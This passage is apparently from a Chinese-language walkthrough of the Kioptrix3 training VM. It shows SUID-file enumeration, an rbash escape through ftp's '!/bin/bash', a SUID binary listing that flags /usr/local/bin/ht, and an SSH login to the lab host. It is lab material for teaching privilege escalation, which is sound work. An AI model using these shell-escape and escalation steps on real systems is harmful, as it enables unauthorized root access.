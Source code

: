 ``` shell
find / -perm -u=s -type f 2 > /dev/null
# find / -user root -perm -4000 -print 2>/dev/null
# find / -user root -perm -4000 -exec ls -ldb {} 
```

> 会报错：`-rbash: /dev/null: restricted: cannot redirect output`
>
> 这是因为 RBASH 是一种特殊的 shell，它限制了用户的一些操作和权限

尝试绕过一下，相关文章可以参考：[Linux提权之rbash绕过](https://www.freebuf.com/vuls/376922.html)

```shell
rbash$ ftp
ftp> !/bin/bash
```

再次查询一下相关的SUID权限文件：

```text
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/apache2/suexec
/usr/lib/pt_chown
/usr/bin/arping
/usr/bin/mtr
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/at
/usr/bin/sudoedit
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/local/bin/ht
/usr/sbin/pppd
/usr/sbin/uuidd
/lib/dhcp3-client/call-dhclient-script
/bin/fusermount
/bin/ping
/bin/mount
/bin/umount
/bin/ping6
/bin/su
```

这里没有看到常用的提权命令，原理可以参考这位师傅的文章：[谈一谈Linux与suid提权](https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html)，但是换了一个用户登录以后有个文件会提示ht可能可以利用，就是`/usr/local/bin/ht`，尝试搜索一下，找到了一个师傅的总结：[Linux通过第三方应用提权实战总结](https://www.freebuf.com/articles/system/261271.html)

```shell
┌──(kali㉿kali)-[~]
└─$ ssh -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.244.139
loneferret@192.168.244.139's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$ ls
```